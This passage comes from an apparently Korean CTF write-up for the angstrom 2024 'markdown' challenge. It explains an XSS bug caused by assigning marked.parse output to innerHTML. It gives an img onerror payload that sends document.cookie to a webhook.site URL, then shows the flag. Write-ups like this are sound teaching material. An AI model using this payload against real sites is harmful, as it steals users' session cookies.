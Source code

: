 ```javascript    
            delete (async () => {
                const response = await fetch(\`/content/\${id}\`)
                const text = await response.text()
                content.innerHTML = marked.parse(text)
            })()
        </script>
    `)
}) 
```   
마크다운 형식의 입력 값을 받아 결과를 보여주는 코드이다.     
      
`content.innerHTML = marked.parse(text)` 코드로 인해 XSS가 발생하게 된다.      
      
`<img>` 태그를 사용하여 XSS를 발생시키고 봇에게 해당 URL을 넘겨주면 된다.    
       
### Exploit Code     
```javascript
<img src="x" onerror="location.href=`https://webhook.site/ddaad04c-461c-48d4-9321-4204304c1e0e/?c=`+document.cookie">
```    
      
<img src="/assets/images/ctf/2024/angstrom/markdown/token.jpg" width="700px">     
         
<img src="/assets/images/ctf/2024/angstrom/markdown/flag.jpg" width="700px">        
      
### Flag       
actf{b534186fa8b28780b1fcd1e95e2a2e2c}
              

<a id="winds"></a>      
       
# winds     
                         